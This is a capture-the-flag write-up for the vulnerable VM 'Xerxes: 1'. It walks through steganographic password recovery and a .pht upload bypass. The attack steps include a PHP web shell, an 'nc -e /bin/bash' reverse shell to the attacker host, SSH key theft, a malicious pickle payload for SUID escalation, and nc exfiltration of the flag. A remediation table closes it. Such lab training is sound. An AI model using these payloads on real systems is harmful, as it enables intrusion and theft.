

# Xerxes: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.102 |
| **Difficulty** | Hard |
| **OS** | Linux |
| **Goal** | root flag (image file) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/xerxes-1-vulnhub-walkthrough/) |

## Attack Summary

Xerxes: 1 is a steganography-heavy machine with multiple encoding layers. Initial access is gained via a file upload bypass after cracking a password hidden in image alpha-channel pixels (encoded as Base64→decimal→ASCII→Base64→Brainfuck). Lateral movement through three users exploits shell history, a custom binary, and an SSH private key. Privilege escalation abuses a SUID binary with insecure pickle deserialization. Root access leverages a timestamp-derived sudo password.

## Methodology

1. Port scan and directory brute-forcing
2. QR code decoding and multi-layer steganography
3. File upload bypass (`.pht` extension)
4. Web shell to reverse shell
5. Bash history credential harvesting
6. Group-based lateral movement
7. SUID binary pickle deserialization exploit
8. Timestamp-derived password cracking for sudo

---

## Step 1: Reconnaissance

```bash
netdiscover
nmap -A $TARGET
dirb http://$TARGET
```



**Open ports:**
- 80/tcp — HTTP

`dirb` reveals `/dev`, which contains a "forgot password" page with an embedded QR code.

---

## Step 2: Steganography Chain — Cracking the Password

### 2a. QR Code Decode

Scan the QR code on the `/dev` page. The result is a Base64 string. Decoding it yields a hint to "look deeper" into the image.

```bash
zbarimg qrcode.png
echo "BASE64_FROM_QR" | base64 -d
```

### 2b. Alpha-Channel Pixel Extraction (GIMP)

1. Open the image in GIMP: **File → Open as Layers**.
2. Add alpha channel if needed; isolate it with **Colors → Components → Decompose → Alpha**.
3. Use the Color Picker tool on faint pixels in the top-left corner.
4. Read the alpha values as decimal integers.

Convert the decimal sequence to ASCII:

```bash
python3 -c "print(''.join([chr(x) for x in [<decimal values>]]))"
```

### 2c. Base64 + Brainfuck Decode

The ASCII output is another Base64 string. Decode it to get a Brainfuck program:

```bash
echo "BASE64_STRING" | base64 -d
# Output: Brainfuck code
# Run it at: https://copy.sh/brainfuck/
# Decoded password: VonBraun
```

**Password:** `VonBraun`

---

## Step 3: File Upload Bypass — Web Shell

The upload form on `/dev` accepts files after entering the password `VonBraun`. Upload a PHP web shell with a `.pht` extension (server does not block `.pht`):

```php
<?php system($_GET['cmd']); ?>
```

Save as `shell.pht` and upload.

Verify execution:

```bash
curl "http://$TARGET/dev/upload/shell.pht?cmd=id"
```


---

## Step 4: Reverse Shell

```bash
# Attacker — start listener
nc -lvnp 1234
```

Trigger the reverse shell via the web shell:

```
http://$TARGET/dev/upload/shell.pht?cmd=nc+-e+/bin/bash+$LHOST+1234
```

Upgrade the shell:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```


---

## Step 5: Lateral Movement — amanpour

Enumerate home directories:

```bash
ls /home
# amanpour  curtiz  delacroix
cat /home/amanpour/.bash_history
```

The bash history contains a command that reveals `amanpour`'s password via the `steqr.py` script:

```bash
python steqr.py -f newpassword
ssh amanpour@$TARGET
```

---

## Step 6: Lateral Movement — delacroix

`amanpour` belongs to the `curtiz` group, granting access to `/home/curtiz`:

```bash
cat /home/curtiz/notes
# Hints at logging in as "Marie" → /etc/passwd shows: delacroix
strings /bin/delacroix
# Contains an MD5 hash
```

Crack the hash online (result: `VonBraun`). However, SSH with this password may fail. Use the SSH private key instead:

```bash
cp /home/curtiz/id_rsa /tmp/id_rsa
# Transfer to attacker machine (nc or scp)
ssh -i id_rsa delacroix@$TARGET
```


---

## Step 7: Privilege Escalation — SUID Pickle Deserialization

Find SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
# /opt/notes
```

Inspect the source:

```bash
cat /opt/notes.py
# Uses Python's pickle.load() on user-supplied file paths
# Accepts paths from /home/curtiz or starting with ../../
```

Create a malicious pickle payload:

```bash
cat > /tmp/shell << 'EOF'
cos
system
(S'/bin/sh'
tR.
EOF
```

Execute:

```bash
/opt/notes
load ../../tmp/shell
```

This spawns a shell with elevated group privileges.


---

## Step 8: Root via Timestamp-Derived Password

In `/home/delacroix`, `generate.sh` derives the sudo password from the creation time of `.last`:

```bash
stat .last
# Birth/Creation time, e.g.: 00:19:51
echo "00:19:51" | md5sum
# Result: the sudo password
sudo bash
```

Retrieve the root flag (a PNG image):

```bash
file /root/flag
# PNG image data
# Transfer to attacker:
nc -lvnp 5555 > flag  # attacker
nc $LHOST 5555 < /root/flag  # target
```

Open `flag` on the attacker machine to see the final flag.

---

## Lessons Learned

1. Security through obscurity (steganography, multi-layer encoding) is not a substitute for proper authentication mechanisms.
2. Unrestricted file upload filtering by extension alone is easily bypassed with alternate extensions (`.pht`, `.php5`, `.phtml`).
3. Python `pickle` deserialization of untrusted input allows arbitrary code execution — never deserialize data from untrusted sources.
4. Using predictable, deterministic values (file creation timestamps) to derive passwords is insecure.
5. Bash history retaining credential-bearing commands is a common lateral movement source.

## Remediation

| Vulnerability | Fix |
|---|---|
| File Upload Bypass | Whitelist only safe content types by MIME type; store uploads outside the web root |
| pickle Deserialization RCE | Replace pickle with JSON or a safe serialization library; validate all deserialized data |
| Bash History Exposure | Set `HISTFILE=/dev/null` or use `HISTCONTROL=ignorespace` for sensitive commands |
| Timestamp-Derived Passwords | Use a cryptographically random password; never derive credentials from predictable system metadata |
| SSH Private Key Exposure | Restrict `id_rsa` permissions to `600`; do not store private keys in shared home directories |
